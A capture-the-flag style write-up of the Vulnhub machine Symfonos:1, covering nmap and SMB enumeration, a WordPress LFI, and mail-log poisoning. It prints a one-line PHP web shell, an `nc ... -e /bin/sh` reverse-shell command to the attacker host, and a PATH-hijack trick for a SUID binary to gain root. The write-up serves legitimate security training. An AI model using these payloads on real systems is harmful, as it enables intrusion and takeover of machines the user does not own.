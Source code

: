 # Symfonos:1 - Writeup 

Symfonos:1 is a beginner real-life based machine from Vulnhub by Zayotic.<br />
It's designed to teach an interesting way of obtaining a low priv shell.<br />
Note: You may need to update your host file for `symfonos.local`.

Link to the machine: [https://www.vulnhub.com/entry/symfonos-1,322/](https://www.vulnhub.com/entry/symfonos-1,322/)
<br />

## Target Identify

Let's start by identifying our target IP address.

```
fping -agq 10.10.10.0/24
10.10.10.1
10.10.10.2
10.10.10.9
```

<br />

## Port scanning

Before we start our scans, add `symfonos.local` to `/etc/hosts` file.

![](Pics/hosts.png)
<br />
<br />

Now, let's scan for open ports, running services, and version detection.

```
┌─[a7@Parrot]─[~/Desktop/vulnHub/symfonos:1]
└──╼ $sudo nmap -p- -sV -sC -O -oN nmap.log symfonos.local
Starting Nmap 7.92 ( https://nmap.org )
Nmap scan report for symfonos.local (10.10.10.9)
Host is up (0.00024s latency).
Not shown: 65530 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 ab:5b:45:a7:05:47:a5:04:45:ca:6f:18:bd:18:03:c2 (RSA)
|   256 a0:5f:40:0a:0a:1f:68:35:3e:f4:54:07:61:9f:c6:4a (ECDSA)
|_  256 bc:31:f5:40:bc:08:58:4b:fb:66:17:ff:84:12:ac:1d (ED25519)
25/tcp  open  smtp        Postfix smtpd
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=symfonos
| Subject Alternative Name: DNS:symfonos
| Not valid before: 2019-06-29T00:29:42
|_Not valid after:  2029-06-26T00:29:42
|_smtp-commands: symfonos.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8
80/tcp  open  http        Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Site doesn't have a title (text/html).
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.5.16-Debian (workgroup: WORKGROUP)
MAC Address: 08:00:27:32:ED:0B (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: Hosts:  symfonos.localdomain, SYMFONOS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 4h59m58s, deviation: 3h27m50s, median: 2h59m58s
|_nbstat: NetBIOS name: SYMFONOS, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-12-08T17:20:10
|_  start_date: N/A
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.5.16-Debian)
|   Computer name: symfonos
|   NetBIOS computer name: SYMFONOS\x00
|   Domain name: \x00
|_  FQDN: symfonos

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.59 seconds
┌─[a7@Parrot]─[~/Desktop/vulnHub/symfonos:1]
└──╼ $
```
<br />


## Enumeration

First, let's visit the web server.

![](Pics/web.png)
<br />
<br />

Just a picture and nothing is found in the source code, download the picture for more analysis.

![](Pics/pic.png)
<br />
<br />

Nothing was found in the image. Launch `gobuster` and `nikto`.

![](Pics/enum.png)
<br />
<br />

Nothing. Ok, let's enumerate `SMB` with `smbclint -L` to list all shared on the target.<br />
When it asks for a password, just press `Enter`.

![](Pics/smb.png)
<br />
<br />

We got `anonymous` which is accessible as "anonymous" user, and `helios` with a comment `"Helios personal share"`, we need a password to access it.<br />
Let's access `anonymous`, and when it asks for a password, just press `Enter`.

![](Pics/smb2.png)
<br />
<br />

We got a text file `attention.txt` which contains a hint that users are using passwords like [epidioko, qwerty, baseball].<br />

Let's try to access `Helios` shares with user `Helios` and those passwords.

![](Pics/smb3.png)
<br />
<br />

There's `/h3l105` which is possibly a directory, let's browse it.

![](Pics/web2.png)
<br />
<br />

It's just another WordPress.<br />
Let's scan the WordPress site for know vulnerable plugins, themes, and user enumeration.<br />
We need to supply an api_token for the vulnerability scan. To obtain one, register an account on [WPScan.com](https://wpscan.com/)<br />
Now, supply your API_token in cli `wpscan --url http://symfonos.local/h3l105/ --api-token YOUR_TOKEN -e vp,vt,u` <br />or via a configuration file.

![](Pics/api.png)
<br />
<br />

Launch `wpscan`.

![](Pics/wpscan.png)
<br />
<br />

We have an Unauthenticated LFI vulnerability.

![](Pics/wpscan2.png)
<br />
<br />

Let's check the first reference link.

![](Pics/poc.png)
<br />
<br />

We have a POC, let's try it.

![](Pics/poc2.png)
<br />
<br />

Great! So, what next?<br />
<br />

We still have one service we didn't enumerate, `SMTP`.

![](Pics/smtp.png)
<br />
<br />

## Getting Access

Now, We have LFI, and we want to escalate it to RCE by "Log Poisoning".<br />
We have three ways to get RCE via Log Poisoning:
- Apache Log File Poisoning.
- SSH Log File Poisoning.
- SMTP Log File Poisoning.

Let's try to include the `/var/Mail/helios` and if it works, we'll poison the `Mail Log File` to get remote code execution.

![](Pics/lfi.png)
<br />

Now, we'll inject a php code in `/var/Mail/helios`.<br />
The code is `<?php system($_GET['exp']); ?>`

![](Pics/lfi2.png)
<br />
<br />

Now, back to the browser, execute the command `&exp=id`.

![](Pics/lfi3.png)
<br />
<br />

Let's get a reverse shell, start a listener and connect back to our machine.<br/>
`nc 10.10.10.2 1234 -e /bin/sh`

![](Pics/shell.png)
<br />
<br />

## Root Access

There's a binary with `SUID` permission under `/opt`.

![](Pics/shell2.png)
<br />
<br />

After analyzing this binary and extracting the metadata, This binary call curl to send a `HEAD` request to the localhost.

![](Pics/shell3.png)
<br />
<br />

We could abuse it by creating an executable file called "curl" containing `/bin/sh` and exporting its path.

![](Pics/root.png)
<br />